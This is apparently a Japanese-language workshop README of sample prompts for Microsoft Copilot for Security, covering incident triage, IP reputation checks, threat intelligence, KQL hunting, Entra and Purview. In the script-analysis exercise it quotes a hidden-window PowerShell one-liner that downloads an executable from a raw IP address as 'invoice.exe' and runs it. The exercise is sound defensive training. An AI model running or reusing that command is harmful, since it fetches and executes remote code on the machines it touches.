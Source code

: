 ![Security CoPilot Logo](https://github.com/ninjyanaka/Copilot-For-Security/blob/main/Promptbook%20samples/ic_fluent_copilot_64_64%402x.png)
# Microsoft Copilot for Security Workshop

***
&nbsp;
## ハンズオンシナリオ➁ インシデント分析編

 ```
Microsoft Defender XDRから、優先すべき重大度の高いインシデントの上位5件を教えて
 ```
 ```
Defender XDR Incident 50 について教えて
 ```
 ```
Defender XDR Incident 50 に関連するエンティティについて教えて
 ```
 ```
MDTIを使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
VirusTotal を使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
調査結果をエグゼクティブ・レポートにまとめて
 ```

***
&nbsp;
## ハンズオンシナリオ➁　スクリプト分析編

 ```
以下のスクリプトは、どのような動作をするのか、順を追って説明し、その意図を推測してください
Script:powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://185.82.217.3/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'\\invoice.exe'
 ```

***
&nbsp;
## ハンズオンシナリオ➁　脅威インテリジェンス編

 ```
私はセキュリティエンジニアです。攻撃アクターグループ Volt Typhoon について教えて
 ```

***
&nbsp;
## ハンズオンシナリオ➂　Azure AI Search、ファイル
Azure AI Search
```
Azure AI Search プラグインを使用して、インシデントの対応手順を教えて
```

ファイル
```
ユーザー test04@MngEnvMCAP616855.onmicrosoft.comについて教えて
```
```
ファイル　危険なユーザー一覧を参照して、このユーザーが危険なのか教えて
```

***
&nbsp;
## ハンズオンシナリオ➂　アドバンスドハンティング　KQL

```
’Cobalt Strike’ のIOCに関連した通信を探して
```

***
&nbsp;
## ハンズオンシナリオ➃　Entra

```
先週、疑わしい、あるいは不可能な移動があった個人アカウントは？
```

***
&nbsp;
## ハンズオンシナリオ➄　Purview

```
Microsoft Purview から、優先すべき重大度の高いアラートの上位5件を教えて
```
```
アラートID　dl13063524-3948-d713-2a00-08dcbd250086　について教えて
```
```
調査結果をエグゼクティブ・レポートにまとめて
```

